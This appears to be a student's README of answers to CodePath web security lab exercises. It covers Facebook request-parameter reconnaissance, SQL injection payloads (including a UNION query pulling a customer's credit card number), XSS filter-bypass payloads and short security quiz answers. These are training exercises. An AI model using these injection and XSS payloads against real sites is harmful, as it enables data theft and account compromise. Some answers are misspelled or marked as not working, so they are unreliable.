 # Web-Securities-Labs
codepath Web Securities labs

## Week 1
Insecure Direct Object Reference:
1) Go to https://facebook.com. What is the Cache-Control header set to in the response? Enter as a comma-delimited list below. Order doesn't matter, and values are case insensitive. 
``` private, no-cache, no-store, must-revalidate ```

2) What is the URI for liking a Facebook post on your homepage? Hint: https://www.quora.com/What-does-Facebook-refer-to-as-UFI
``` /ufi/reaction/?dpr=1 ```

3) When posting your status to Facebook, which query parameter contains the text of your message? Hint: Make sure you're not filtering out URIs like: ajax/updatestatus 
``` xhpc_message_text ```

## Week 2
SQL injections:
1) To complete this challenge, you must exploit SQL injection flaw in the following form to find the result key.

Please enter the Customer Id of the user that you want to look up: 
``` SELECT * FROM customers WHERE customerId ="1" OR '1' = '1'; -- ";```

2) To complete this challenge, you must exploit the SQL injection flaw in the following form to find the result key.

Please enter the Customer Email of the user that you want to look up:
``` SELECT * FROM customers WHERE customerEmail ="samman@gmail.com' OR '1' = '1'; -- "@gmail.com ```

3) To complete this challenge, you must exploit SQL injection flaw in the following form to find the result key. The developer of this level has attempted to stop SQL Injection attacks by escaping apostrophes so the database interpreter will know not to pay attention to user submitted apostrophes.
```SELECT * FROM customers WHERE customerId ="2\' OR 1 = 1;-- "; ```

4) To complete this challenge, you must exploit a SQL injection issue in the following sub application to acquire the credit card number from one of the customers that has a customer name of Mary Martin. Mary's credit card number is the result key to this challenge.
``` SELECT customerName from customers where customerName='Mary MArtin' Union select CreditCardNumber from customers where customerName="mary martin"; # ```

## Week 3
Cross Site Scripting One

1) Find a XSS vulnerability in the following form. It would appear that your input is been filtered!
Please enter the Search Term that you want to look up 
```<IMG SRC="#" ONERROR="alert('XSS')"/>```

2)  Find a XSS vulnerability in the following form. It would appear that your input is been filtered!
Please enter the Search Term that you want to look up 
```<IMG SRC="#" ONMESSAGE="alert('XSS')"/>```

3) In this one, the developer is completely removing the handler name. 
``` <SCRonmessageIPT>alert('XSS')</SCRonmessageIPT> ```

4) Demonstrate a XSS vulnerability in the following form by executing a JavaScript alert command. The developers had heard that escaping is a better way of fixing XSS issues but they were not totally clear on how to implement it.

Please enter the URL that you wish to post to your public profile;
``` http://www.google.com" oNmessage=alert()> ```

## Week 12

Question answers:

Name of a database of information-security vulnerabilities maintained with funding from the US government. Identifiers for this database are a popular way to reference vulnerabilities (1 word, acronym):
CVE

What is the name of a large network of compromised machines?
botnet

What is the name of the hacking technique often used to acquire sensitive information such as usernames, passwords, and credit card details (and sometimes, indirectly, money) by masquerading as a trustworthy entity in an electronic communication? 
Phising

V arire zvff n orng
rot13

What TCP port does the HTTP protocol commonly use?
80


What is an attack in which the goal is execution of arbitrary commands on the host operating system via a vulnerable application? (three words)
Command injection (not working right now)

What TCP port does HTTPS commonly use?
443
